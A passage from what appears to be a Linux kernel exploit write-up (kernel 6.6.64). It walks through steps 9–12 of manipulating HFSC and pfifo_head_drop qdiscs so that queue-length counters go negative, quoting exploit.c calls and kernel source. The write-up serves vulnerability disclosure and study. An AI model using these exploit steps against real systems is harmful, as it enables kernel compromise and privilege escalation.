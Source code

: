 - After step8, we have the following things:
	1. Qdisc_A route is modified to route enqueued packet through qdisc linked with class_A object.

Step9: Trigger packet enqueue [[exploit.c#L1004]](../exploit/lts-6.6.64/exploit.c#L1004)
```c
trigger_qdisc_enqueue(packet_socket, ifindex);
```

- Packet flow of step9: `hfsc_enqueue(Qdisc_A)` -> `hfsc_enqueue(Qdisc_B)` -> `pfifo_tail_enqueue(Qdisc_C)`.
- After step9, we have the following things:
	1. Qdisc_C->q.qlen == 1.
	2. Qdisc_B->q.qlen == 0.
	3. Qdisc_A->q.qlen == -1.

Step10: Delete Qdisc_C [[exploit.c#L1005]](../exploit/lts-6.6.64/exploit.c#L1005)
```c
delete_qdisc(route_socket, ifindex, qdisc_B_handle, qdisc_C_handle);
```

- After step10, we have the following things:
	1. Qdisc_B->q.qlen == -1.
	2. Qdisc_A->q.qlen == -2.

Step11: Create Qdisc_C [[exploit.c#L1007]](../exploit/lts-6.6.64/exploit.c#L1007)
```c
pfifo_head_drop_qopt_C.limit = 0xFFFFFFFF;
create_pfifo_head_drop_qdisc(
	route_socket,
	ifindex,
	qdisc_B_handle,
	qdisc_C_handle,
	&pfifo_head_drop_qopt_C
);
```

- After step11, we have the following things:
	1. Qdisc_C (parent: Qdisc_B, handle: qdisc_C_handle, type: `pfifo_head_drop`).
	2. Qdisc_C has `sch->limit == 0xFFFFFFFF`.

Step12: Trigger Flow2 described in idea [[exploit.c#L1015]](../exploit/lts-6.6.64/exploit.c#L1015)
```c
change_hfsc_class(route_socket, ifindex, qdisc_A_handle, classid_A, &rsc_A, NULL, NULL);
```

Take a look at kernel function `hfsc_change_class()`:
```c
static int
hfsc_change_class(struct Qdisc *sch, u32 classid, u32 parentid,
		  struct nlattr **tca, unsigned long *arg,
		  struct netlink_ext_ack *extack)
{
	struct hfsc_sched *q = qdisc_priv(sch);
	struct hfsc_class *cl = (struct hfsc_class *)*arg;
	/* Writeup note: Deleted code for clarity */

	if (cl != NULL) {
		/* Writeup note: Deleted code for clarity */
		sch_tree_lock(sch);
		old_flags = cl->cl_flags;

		if (rsc != NULL)
			hfsc_change_rsc(cl, rsc, cur_time);

		if (cl->qdisc->q.qlen != 0) {
			int len = qdisc_peek_len(cl->qdisc);

			if (cl->cl_flags & HFSC_RSC) {
				if (old_flags & HFSC_RSC)
```